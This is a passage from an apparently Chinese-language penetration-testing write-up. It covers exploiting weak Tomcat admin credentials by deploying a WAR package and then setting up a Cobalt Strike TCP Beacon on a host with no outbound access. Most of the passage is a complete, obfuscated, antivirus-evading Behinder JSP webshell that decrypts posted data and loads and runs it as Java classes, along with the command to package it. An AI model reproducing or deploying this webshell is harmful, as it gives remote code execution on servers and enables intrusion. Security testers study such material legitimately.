 2、双层代理，可以使用代理链实现

## Tomcat部署war包

扫描结果看到一个tomcat弱密码admin/admin，感觉有戏，熟悉的部署war包环节

制作免杀冰蝎马，默认密码rebeyond，打成war包

jar -cvf shell.war ./shell.jsp

```java
<%! public byte[] A14I0(String Strings,String k) { try {javax.crypto.Cipher BI3fM5 = javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");BI3fM5.init(javax.crypto.Cipher.DECRYPT_MODE, (javax.crypto.spec.SecretKeySpec) Class.forName("javax.crypto.spec.SecretKeySpec").getConstructor(byte[].class, String.class).newInstance(k.getBytes(), "AES"));int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98};String ccstr = "";for (int i = 0; i < aa.length; i++) { aa[i] = aa[i] ^ 0x010;ccstr = ccstr + (char) aa[i];}byte[] bytes = (byte[]) Class.forName(ccstr).getMethod("decodeBuffer", String.class).invoke(Class.forName(ccstr).newInstance(), Strings);byte[] result = (byte[]) BI3fM5.getClass()./*Z5Z48C2BT7*/getDeclaredMethod/*Z5Z48C2BT7*/("doFinal", new Class[]{byte[].class}).invoke(BI3fM5,new Object[]{bytes});return result;} catch (Exception e) {e.printStackTrace();return null;} } %><%  try {  String KP8HYn8 = "e45e329feb5d925b";  session.putValue("u", KP8HYn8);  byte[] I934d9i = A14I0 (request.getReader().readLine(),KP8HYn8);  java./*Z5Z48C2BT7*/lang./*Z5Z48C2BT7*/reflect.Method A14I0 = Class.forName("java.lang.ClassLoader").getDeclaredMethod/*Z5Z48C2BT7*/("defineClass",byte[].class,int/**/.class,int/**/.class);  A14I0.setAccessible(true);  Class i = (Class)A14I0.invoke(Thread.currentThread()./*Z5Z48C2BT7*/getContextClassLoader(), I934d9i , 0, I934d9i.length);  Object Q362 = i./*Z5Z48C2BT7*/newInstance();  Q362.equals(pageContext); } catch (Exception e) {response.sendError(404);} %>
```

![image-20220929113917980.png](assets/1698900874-b8928d54d4bd031f38267898c2bf2717.png)

探测一下发现不出网，这里直接使用CS自带的TCP Beacon 正向连接

新建一个TCP Listener

